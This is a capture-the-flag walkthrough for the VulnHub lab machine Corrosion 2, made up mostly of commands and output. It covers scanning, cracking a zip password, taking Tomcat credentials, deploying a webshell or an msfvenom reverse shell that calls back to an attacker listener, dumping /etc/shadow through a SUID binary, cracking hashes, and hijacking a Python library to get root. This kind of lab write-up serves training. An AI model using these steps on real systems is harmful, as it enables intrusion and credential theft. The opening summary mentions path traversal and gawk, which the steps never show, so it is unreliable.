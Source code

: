 
[https://www.vulnhub.com/entry/corrosion-2,745/](https://www.vulnhub.com/entry/corrosion-2,745/?ref=rootandbeer.com)

Corrosion 2 is a medium difficulty box that demonstrated various attack techniques and exploits, focusing on privilege escalation, file path traversal, and password cracking. The initial foothold was gained through a file path traversal vulnerability, which allowed access to sensitive files, including password hashes. These hashes were cracked, enabling further access. Exploiting SUID binaries was central to elevating privileges, with the `gawk` binary playing a key role in achieving root access. The challenge required understanding misconfigurations, leveraging binaries with elevated permissions, and carefully navigating access controls to achieve full system compromise. These techniques highlight the importance of patching common vulnerabilities and securing binaries to prevent unauthorized escalation.

**Run *[[Nmap]] -A* scan against all TCP ports:**

```bash
└─$ nmap -A -sC -p- 192.168.5.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 19:42 EDT
Nmap scan report for 192.168.5.114
Host is up (0.015s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6a:d8:44:60:80:39:7e:f0:2d:08:2f:e5:83:63:f0:70 (RSA)
|   256 f2:a6:62:d7:e7:6a:94:be:7b:6b:a5:12:69:2e:fe:d7 (ECDSA)
|_  256 28:e1:0d:04:80:19:be:44:a6:48:73:aa:e8:6a:65:44 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat 9.0.53
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.53
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.43 seconds
```

**Run [[Nikto]] scan on port 8080 to discover "*backup.zip*":**

```bash
└─$ nikto -timeout 2 -h http://192.168.5.114:8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.5.114
+ Target Hostname:    192.168.5.114
+ Target Port:        8080
+ Start Time:         2024-08-05 17:46:37 (GMT-7)
---------------------------------------------------------------------------
+ Server: No banner retrieved
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /backup.zip: Potentially interesting archive/cert file found.
+ /backup.zip: Potentially interesting archive/cert file found. (NOTE: requested by IP address).
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ OSVDB-3092: /readme.txt: This might be interesting...
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/status: Default Tomcat Server Status interface found
+ /host-manager/status: Default Tomcat Server Status interface found
+ 8069 requests: 0 error(s) and 16 item(s) reported on remote host
```

**Download *backup.zip*:**

```bash
└─$ wget http://192.168.5.114:8080/backup.zip -O backup.zip
```

**Crack zip file password with *[[fcrackzip]]* & *rockyou* password list:**

```bash
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
PASSWORD FOUND!!!!: pw == @administrator_hi5    
```

**Unzip *backup.zip* using password:**

```bash
└─$ unzip backup.zip                                                   
Archive:  backup.zip
[backup.zip] catalina.policy password: 
password incorrect--reenter: 
  inflating: catalina.policy         
  inflating: context.xml             
  inflating: catalina.properties     
  inflating: jaspic-providers.xml    
  inflating: jaspic-providers.xsd    
  inflating: logging.properties      
  inflating: server.xml              
  inflating: tomcat-users.xml        
  inflating: tomcat-users.xsd        
  inflating: web.xml   
```

**Find tomcat admin password in *tomcat-users.xml*:**

```bash
└─$ cat tomcat-users.xml | grep -i password
...
<user username="manager" password="melehifokivai" roles="manager-gui"/>
<user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
```

>[!note]- Option 1: RCE via webshell
> ```bash
> └─$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
> zip -r backup.war cmd.jsp 
> ```
> On Tomcat Web Application Manager page, upload backup.war under "WAR file to deploy".
> 
> Your webshell will be here:
> [http://192.168.5.114:8080/backup/cmd.jsp](http://192.168.5.114:8080/backup/cmd.jsp?)

>[!note]- Option 2: RCE via msfvenom [[reverse shell]]
> ```bash
> └─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.5.10 LPORT=31337 -f war > shell.war
> ```
> On Tomcat Web Application Manager page, upload shell.war under "WAR file to deploy".
> 
> Click on WAR file in Tomcat after it finished uploading
> 
> Receive [[reverse shell]] via netcat:
> 
> ```bash
> └─$ nc -nvlp 31337
> listening on [any] 31337 ...
> connect to [192.168.5.10] from (UNKNOWN) [192.168.5.114] 42390
> ```


**Discover users "randy" and "jaye" in */etc/passwd:***

```bash
└─$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
...
randy:x:1000:1000:randy,,,:/home/randy:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
tomcat:x:1001:1001::/home/tomcat:/bin/sh
sshd:x:127:65534::/run/sshd:/usr/sbin/nologin
jaye:x:1002:1002::/home/jaye:/bin/sh
```

**Find *note.txt* in randy's home folder:**

```bash
└─$ cat /home/randy/note.txt

Hey randy this is your system administrator, hope your having a great day! I just wanted to let you know that I changed your permissions for your home directory. You won't be able to remove or add files for now.

I will change these permissions later on.

See you next Monday randy!
```

**Find user-level flag in randy's home folder:**

```bash
cat /home/randy/user.txt

ca73a018ae6908a7d0ea5d1c269ba4b6
```

**Reuse admin password from tomcat for user "jaye":**

```bash
└─$ ssh jaye@192.168.5.114
jaye@192.168.5.114's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-34-generic x86_64)
```

**Use look command (SUID as root) to pull the shadow file:**

```bash
jaye@corrosion:~/Files$ ./look '' /etc/shadow
root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
...
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
systemd-coredump:!!:18886::::::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
sshd:*:18887:0:99999:7:::
jaye:$6$Chqrqtd4U/B1J3gV$YjeAWKM.usyi/JxpfwYA6ybW/szqkiI1kerC4/JJNMpDUYKavQbnZeUh4WL/fB/4vrzX0LvKVWu60dq4SOQZB0:18887:0:99999:7:::
```

**Crack the randy user password with John The Ripper and rockyou.txt password list:**

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ./corrosion.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
                                                                                                                                 
07051986randy    (randy)                                                                                                                                                                                                                                                                                                    
1g 0:00:16:22 DONE (2024-08-05 22:02) 0.001018g/s 14186p/s 14186c/s 14186C/s 070624960..0702328                                                                                                                                                                                                                             
Use the "--show" option to display all of the cracked passwords reliably                                                                                                                                                                                                                                                    
Session completed.  
```

**Reconnect to SSH as randy:**

```bash
ssh randy@192.168.5.114
```

**Check for world-writeable files:**

```bash
$ find / -xdev \( -perm -0002 -a ! -perm -1000 \) -type f -print 2>&1 |grep -v "Permission denied"
/usr/lib/python3.8/base64.py
```

**Run `sudo -l` to discover randy can run randombase64.py as root:**

```bash
randy@corrosion:~$ sudo -l
[sudo] password for randy:
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```

**Create a python script (*/tmp/test.py*) that launches /bin/bash:**

```bash
# Importing required module
import os
 
os.system('/bin/bash')
```

**Overwrite */usr/lib/python3.8/base64.py* with our python script:**

```bash
cp /tmp/test.py /usr/lib/python3.8/base64.py
```

**Run *randombase64.py* as root:**

```bash
randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
root@corrosion:/home/randy# id
uid=0(root) gid=0(root) groups=0(root)
```

**Grab root flag:**

```bash
root@corrosion:/home/randy# cat /root/root.txt
2fdbf8d4f894292361d6c72c8e833a4b
```

